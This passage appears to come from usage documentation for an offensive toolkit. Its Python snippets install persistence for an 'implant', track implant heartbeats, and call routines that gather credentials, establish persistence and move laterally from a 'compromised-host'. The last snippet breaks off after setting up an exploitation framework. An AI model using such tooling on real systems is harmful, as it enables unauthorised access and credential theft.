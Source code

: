 ### Persistence and Recovery
```python
from blackphoenix.blackphoenix_persistence_mechanism import PersistenceMechanism
from blackphoenix.blackphoenix_recovery_engine import RecoveryEngine

# Initialize persistence mechanism
persistence = PersistenceMechanism(config_path="blackphoenix/config.yaml")

# Install persistence mechanisms based on OS
persistence.install()

# Check persistence status
status = persistence.check_status()

# Initialize recovery engine
recovery = RecoveryEngine()

# Register component for recovery monitoring
recovery.register_component("implant", restart_function=restart_implant)

# Start recovery monitoring
recovery.start()
```

### Heartbeat Monitoring
```python
from blackpulse.blackpulse_heartbeat_monitor import HeartbeatMonitor

# Initialize heartbeat monitor
monitor = HeartbeatMonitor()

# Register an implant for monitoring
monitor.register_implant("implant-001", expected_interval=60)  # 60 seconds

# Process a heartbeat from an implant
monitor.process_heartbeat("implant-001")

# Register alert handler
def alert_handler(implant_id, alert_type, details):
    print(f"Alert for {implant_id}: {alert_type} - {details}")

monitor.register_alert_handler(alert_handler)

# Start the monitor
monitor.start()
```

### Post-Exploitation and Exploitation
```python
from blackfall.post_exploitation import PostExploitation
from blacktalon.exploitation_framework import ExploitationFramework

# Initialize post-exploitation module
post_exploit = PostExploitation()

# Execute post-exploitation actions
post_exploit.gather_credentials(target="compromised-host")
post_exploit.establish_persistence(target="compromised-host")
post_exploit.lateral_movement(source="compromised-host", target="internal-server")

# Initialize exploitation framework
exploitation = ExploitationFramework()

```